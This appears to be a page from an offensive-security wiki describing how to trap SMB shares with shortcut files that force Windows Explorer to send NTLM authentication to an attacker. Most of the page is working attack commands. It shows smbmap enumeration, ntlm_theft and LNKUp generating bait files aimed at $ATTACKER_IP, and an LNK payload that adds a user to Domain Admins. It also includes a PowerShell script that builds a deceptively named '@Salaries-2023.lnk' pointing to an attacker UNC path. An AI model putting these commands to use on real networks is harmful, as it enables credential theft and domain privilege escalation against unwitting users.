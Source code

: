 SMB shares can be trapped with shortcut files that will automatically be handled by Windows' file explorer (e.g. a URL shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary). This leads to an outgoing traffic using SMB.

{% hint style="info" %}
Shares an account has WRITE privileges over can be mapped with [smbmap](https://github.com/ShawnDEvans/smbmap) (Python).

```bash
smbmap -d "domain" -u "user" -p "password" --host-file targets.txt
```
{% endhint %}

{% hint style="info" %}
Shortcut file names can be preprended with a `@` symbol to put them on top of the share, to make sure the file explorer has to parse it.
{% endhint %}

{% hint style="success" %}
The [ntlm\_theft](https://github.com/Greenwolf/ntlm\_theft) (Python) tool can be used to generate multiple file types at once (lnk, scf, url, docx, xslx, htm, xml, pdf, ...).

```bash
ntlm_theft.py --generate all --server $ATTACKER_IP --filename "@FILENAME"
```
{% endhint %}

{% tabs %}
{% tab title=".lnk" %}
An LNK shortcut using an icon file located on a remote SMB share will be parsed by the file explorer that will request the icon file and authenticate if necessary.

> Shortcuts with the .lnk extension have a lot of beneficial properties when it comes to stealth; [they are an exception](https://en.wikipedia.org/wiki/Shortcut\_\(computing\)#Microsoft\_Windows) from the Windows setting to show or hide file extensions. Even when “hide known file extensions” is disabled, explorer.exe will only show the name, allowing us to let it end in “.jpeg”. A major downside is that they only allow 1024 characters for the whole command they execute. ([source](https://hatching.io/blog/lnk-hta-polyglot/))

[LNKUp](https://github.com/Plazmaz/LNKUp) (Python) is a great tool to generate malicious LNK shortcuts. They can be set with a remote icon file to generate outgoing SMB traffic and authentications but can also be set to execute commands when opened (i.e. double-clicked).

```bash
# Simple SMB trap with remote icon file
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk'

# SMB trap + command execution
LNKUp.py --host $ATTACKER_IP --type ntlm --output '@CONFIDENTIAL-ACCOUNTS.txt.lnk' --execute "net group 'Domain Admins' Pentester01 /domain /add"
```

```bash
# Simple SMB trap with remote icon file (Powershell)
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("C:\Windows\temp\@Salaries-2023.lnk")
$lnk.TargetPath = "\\<attackerIP>\@icon.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Salaries-2023."
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```
